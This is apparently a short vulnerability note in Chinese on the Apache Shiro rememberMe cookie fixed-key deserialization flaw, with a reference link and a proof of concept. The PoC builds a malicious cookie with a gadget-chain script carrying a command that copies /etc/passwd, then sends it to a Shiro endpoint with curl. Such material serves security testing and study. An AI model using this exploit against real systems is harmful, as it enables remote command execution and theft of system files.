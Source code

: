 ### Shiro rememberMe cookie 固定秘钥反序列化漏洞

参考链接

* [Apache Shiro Java 反序列化漏洞分析](http://blog.knownsec.com/2016/08/apache-shiro-java/)

Poc

```
# jdku21 gadget

python2.7 build-cookie.py "cp /etc/passwd /tmp" > cookie.txt
curl 127.0.0.1/shiro/ -H 'Cookie: `cat cookie.txt`'
```

